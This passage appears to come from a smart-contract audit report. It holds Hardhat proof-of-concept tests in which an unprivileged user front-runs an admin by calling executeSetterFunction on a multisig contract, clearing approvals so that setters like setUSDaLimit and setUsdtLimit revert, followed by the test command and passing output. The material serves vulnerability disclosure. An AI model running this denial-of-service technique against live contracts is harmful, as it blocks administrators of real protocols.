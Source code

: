 ```js

            const tx = CDSContractA.connect(owner).setTreasury(await treasuryB.getAddress());
            await expect(tx).to.be.reverted;
        })

        it("DOS(denial of service) revert setUSDaLimit CDSContract", async function () {
            const { CDSContractA, multiSignA } = await loadFixture(deployer);
            await multiSignA.connect(owner).approveSetterFunction([8]);
            await multiSignA.connect(owner1).approveSetterFunction([8]);

            // A malicious user called before admin
            // in `executeSetterFunction` function set false all approved admins
            await multiSignA.connect(user1).executeSetterFunction(8);

            const tx = CDSContractA.connect(owner).setUSDaLimit(10);
            await expect(tx).to.be.reverted;
        })

        it("DOS(denial of service) revert setUsdtLimit CDSContract", async function () {
            const { CDSContractA, multiSignA } = await loadFixture(deployer);
            await multiSignA.connect(owner).approveSetterFunction([9]);
            await multiSignA.connect(owner1).approveSetterFunction([9]);

            // A malicious user called before admin
            // in `executeSetterFunction` function set false all approved admins
            await multiSignA.connect(user1).executeSetterFunction(9);

            const tx = CDSContractA.connect(owner).setUsdtLimit(1000);
            await expect(tx).to.be.reverted;
        })

    })
```

run test with this command: `npx hardhat test --grep "^DOS\(denial of service\) revert"`

the test result:
```batch

  ✔ DOS(denial of service) revert setLTV BorrowingContract (55059ms)
  ✔ DOS(denial of service) revert setAPR BorrowingContract (103ms)
  ✔ DOS(denial of service) revert setAdmin BorrowingContract
  ✔ DOS(denial of service) revert setTreasury BorrowingContract (148ms)
  ✔ DOS(denial of service) revert setBondRatio BorrowingContract (60ms)
  ✔ DOS(denial of service) revert setAdmin CDSContract (59ms)
  ✔ DOS(denial of service) revert setWithdrawTimeLimit CDSContract (769ms)
  ✔ DOS(denial of service) revert setTreasury CDSContract (69ms)
  ✔ DOS(denial of service) revert setUSDaLimit CDSContract (59ms)
  ✔ DOS(denial of service) revert setUsdtLimit CDSContract (85ms)

  10 passing (57s)

```
